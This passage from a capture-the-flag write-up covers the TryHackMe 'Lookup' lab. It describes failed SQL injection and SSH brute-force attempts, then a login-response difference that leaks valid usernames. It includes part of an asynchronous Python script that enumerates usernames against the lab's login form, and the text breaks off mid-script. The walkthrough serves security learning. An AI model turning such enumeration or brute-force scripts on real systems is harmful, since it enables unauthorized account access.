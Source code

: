 ![login page dark](/assets/images/lookup/dark/website_login.png){: .dark }

The first thing I tried was [SQLi](https://tryhackme.com/r/room/sqlinjectionlm), as usual, but I couldn't get it to work.
I also ran [sqlmap](https://tryhackme.com/r/room/sqlmap) against it, but still had no success.
Next, I decided to check the SSH service. I tried brute-forcing the `root` user using the `rockyou` wordlist, but this attempt also didn't succeed.

So back to the website and playing around with [Burp-Suite](https://tryhackme.com/module/learn-burp-suite), I noticed that, when I tried another user, for example `tester`, the error response was not the same as for the user `admin`.
This means: I should be able to enumerate valid usernames. Maybe some of them are bruteforceable?

### User Enumeration

To get the username, I wrote a python script. The first version of it, was to slow and I'm not a patient person but a person who likes to code.
I rewrote it to run concurrent requests:

```python
import aiohttp
import asyncio
import sys

target = 'http://lookup.thm/login.php'
wordlist_path = sys.argv[1]
valid_usernames = []

async def send_request(sess, uname):
  form_data = {'username':uname.strip(), 'password':'test'}
  async with sess.post(target, data=form_data) as response:
    response_text = await response.text()
    if 'Wrong username' not in response_text:
      valid_usernames.append(uname.strip())

async def main():
  async with aiohttp.ClientSession() as sess:
    with open(wordlist_path, 'r') as wordlist:
      tasks = []
```